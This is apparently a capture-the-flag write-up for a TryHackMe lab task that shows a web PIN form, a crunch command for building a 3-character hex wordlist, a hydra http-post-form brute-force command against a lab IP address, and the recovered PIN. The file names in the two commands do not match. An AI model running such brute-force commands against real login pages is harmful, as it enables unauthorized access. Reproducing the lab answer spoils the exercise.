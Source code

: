 # Task 9 [Day 3] Brute-forcing: Hydra is Coming to Town
# The Story
![Image](https://tryhackme-images.s3.amazonaws.com/user-uploads/5f04259cf9bf5b57aed2c476/room-content/87f456172b2ef2b072a057d4912dbfdf.svg)

## *Answer Of The Question Below*

#### Using crunch and hydra, find the PIN code to access the control system and unlock the door. What is the flag?
![IMAGE](1.png)
```html
<form method="post" action="login.php" class="grid grid-cols-3 max-w-lg mx-auto bg-thm-900 p-4 font-mono">
  <input type="hidden" name="pin" />
</html>
```
![Image](2.png)

#### Generating the Password List
```bash
mkdir passlist && cd passlist
```
![Image](3.png)

```bash
crunch 3 3 0123456789ABCDEF -o 3digits.txt
```
![Image](4.png)

 
#### Using the Password List
```bash
hydra -l '' -P 3pass.txt -f -v 10.10.172.65 http-post-form "/login.php:pin=^PASS^:Access denied" -s 8000
```
![image](5(1).png)

#### Found Pin:
![image](6.png)

```python
6F5
```
![image](7.png)




